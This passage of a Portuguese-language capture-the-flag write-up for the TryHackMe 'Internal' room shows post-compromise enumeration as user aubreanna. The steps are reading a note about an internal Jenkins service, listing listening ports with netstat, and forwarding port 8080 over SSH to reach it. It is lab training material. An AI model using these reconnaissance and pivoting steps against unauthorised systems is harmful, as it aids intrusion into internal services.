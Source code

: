 ```bash
drwx------ 3 aubreanna aubreanna 4096 Aug  3  2020 snap
-rwx------ 1 aubreanna aubreanna   21 Aug  3  2020 user.txt
```
No mesmo diretório do usuário, também encontramos o arquivo `jenkins.txt`, que informa que o serviço `Jenkis` está rodando localmente em outro server na porta `8080`.

```bash
aubreanna@internal:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```

Ao enumerar os serviços rodando localmente, também encontramos algo rodando na porta 8080.

```bash
aubreanna@internal:~$ netstat -plnt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:43803         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```
Podemos redirecionar esta porta, para nossa própria porta 8080 via SSH.

```bash
┌──(hastur㉿hastur)-[~/…/estudos/thm/hard/Internal]
└─$ ssh -L 8080:localhost:8080 aubreanna@internal.thm 
```
Agora podemos acessar via browser.

<img src="/thm/thm-internal-8.png">
